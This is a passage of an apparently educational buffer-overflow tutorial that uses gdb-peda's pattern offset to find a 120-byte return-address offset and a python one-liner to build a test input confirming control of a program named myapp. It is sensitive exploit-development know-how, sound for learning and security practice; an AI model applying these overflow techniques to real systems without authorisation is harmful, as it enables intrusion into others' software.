 


<hr width="250" size="6">



Look at the `stack` section of the report; the value at the top of the stack will help give us our offset.

`pattern offset` can calculate this offset, which is the number of bytes that were processed before that pattern left at the top of the stack.


```
gdb-peda$ pattern offset jAA9AAOA
jAA9AAOA found at offset: 120   
```

To check our findings create a pattern of 120 character 'A's and append 8 character 'B's to it followed by a bunch of 'C's for padding, say 100 of them.

From the terminal outside peda, we can use a python command to quickly generate this.
```
python -c 'print "A"*120 + "B"*8 + "C"*100' > bb
```
check it with `cat`

```
cat bb

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

Now run it as input to myapp in gdb-peda.

```
r < bb
```
The result confirms our control.
